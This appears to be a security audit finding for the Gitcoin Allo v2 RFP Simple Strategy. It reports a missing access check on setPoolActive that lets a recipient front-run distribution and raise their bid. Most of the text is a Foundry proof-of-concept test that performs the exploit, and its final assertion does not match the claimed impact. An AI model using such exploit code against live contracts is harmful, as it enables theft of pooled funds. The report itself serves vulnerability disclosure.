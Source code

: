 Rich Jade Wolf

high

# Recipients can disrupt the RFP Simple Strategy by changing a proposal bid to front-run distribution calls
The recipient can change the initial proposal bid during distributions in the RFP Simple Strategy.

## Vulnerability Detail

1. The recipient sets the proposal bid upon registration.
2. They follow a standard flow: set milestones, allocate funds, and submit upcoming milestones.
3. The recipient scans the mempool for transactions calling the `distribute` function.
4. They front-run the call and change the initial proposal bid to another value.

## Impact
Recipient receives more funds than initially expected

## Code Snippet
```solidity
function testFrontRunAttack() public {
    // The attacker registers as a recipient and sets the proposal bid to 0.2 ether
    address attacker = recipient();
    uint256 proposalBid = 0.2 ether;

    Metadata memory metadata = Metadata({ protocol: 1, pointer: "metadata" });

    bytes memory data = abi.encode(attacker, false, proposalBid, metadata);

    vm.prank(address(allo()));
    address recipientId = strategy.registerRecipient(data, attacker);

    RFPSimpleStrategy.Recipient memory _recipient = strategy.getRecipient(recipientId);
    console.log("Attacker address: %s", _recipient.recipientAddress);
    console.log("Attacker proposal bid: %s", _recipient.proposalBid);

    // Set milestones, first 70%, second 30%
    __setMilestones();

    // Allocate
    vm.prank(address(allo()));
    strategy.allocate(abi.encode(recipientId), address(pool_admin()));

    // Submit the upcoming milestone
    vm.prank(attacker);
    strategy.submitUpcomingMilestone(metadata);

    // Fund the pool
    vm.deal(pool_admin(), 1e19);
    vm.prank(pool_admin());
    allo().fundPool{ value: 1e19 }(poolId, 1e19);

    // --- Start attack transaction
    vm.prank(attacker);
    strategy.setPoolActive(true);
    console.log("Switch pool status to active");

    // Top up the proposal bid to the maximum
    data = abi.encode(attacker, false, strategy.maxBid(), metadata);

    // Update the proposalBid
    vm.prank(address(allo()));
    strategy.registerRecipient(data, attacker);

    _recipient = strategy.getRecipient(recipientId);
    console.log("Attacker proposal bid after attack: %s", _recipient.proposalBid);

    vm.prank(attacker);
    strategy.setPoolActive(false);
    console.log("Switch pool status to inactive");
    // --- End attack transaction

    // Distribute
    vm.prank(address(allo()));
    strategy.distribute(new address[](0), "", pool_admin());

    assertEq(attacker.balance, proposalBid * 7e17 / 1e18);
}

```

## Tool used
`forge test`
The snippet can be copied to `test/foundry/strategies/RFPSimpleStrategy.t.sol` and executed

## Recommendation
Consider using the `onlyPoolManager(msg.sender)` modifier for the [setPoolActive](https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/rfp-simple/RFPSimpleStrategy.sol#L219) function